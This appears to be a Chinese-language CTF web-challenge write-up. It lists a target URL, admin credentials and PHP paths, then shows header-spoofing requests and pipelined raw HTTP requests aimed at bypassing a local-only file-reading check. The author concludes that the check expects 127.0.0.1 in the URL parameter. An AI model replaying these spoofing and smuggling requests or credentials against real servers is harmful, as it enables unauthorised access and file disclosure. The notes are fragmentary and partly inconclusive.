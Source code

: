 
拿到后台地址和管理员账号


```
http://121.37.181.246:6333/eGlhb2xldW5n
admin,20200202goodluck
```

```
http://121.37.181.246:6333/eGlhb2xldW5n/eGlhb2xldW5nLnBocA==.php
http://121.37.181.246:6333/eGlhb2xldW5n/check.php
http://121.37.181.246:6333/eGlhb2xldW5n/index.php

```


php版本5.5.9,%00截断

check.php中可以读取文件但是需要本地访问

```
Host: 127.0.0.1
X-Forwarded-For: 127.0.0.1
Client-Ip: 127.0.0.1
Referer: http://127.0.0.1/eGlhb2xldW5n/check.php
```

```
没有用
eGlhb2xldW5nLnBocA==:xiaoleung.php
eGlhb2xldW5n:xiaoleung
注释里给的:eGlhb2xldW5nLnBocA==.php
可能是突破的关键,但是里面啥都没有
对eGlhb2xldW5nLnBocA==.php进行参数爆破,也没结果

```



存在http请求走私

```
GET /eGlhb2xldW5n/check.php?url=fuck&submit=%E6%9F%A5%E8%AF%A2 HTTP/1.1
Host: 121.37.181.246:6333
X-Forwarded-For: 127.0.0.1
Client-Ip: 127.0.0.1
Cookie: PHPSESSID=9gkhjmmmp6ctmnn2578n3hcth1

GET /eGlhb2xldW5n/check.php?url=fuck&submit=%E6%9F%A5%E8%AF%A2 HTTP/1.1
Host: localhost
X-Forwarded-For: 127.0.0.1
Client-Ip: 127.0.0.1
Cookie: PHPSESSID=9gkhjmmmp6ctmnn2578n3hcth1


```

最后学长跟我说这里本地访问的意思是url中的ip地址要为127.0.0.1........无语
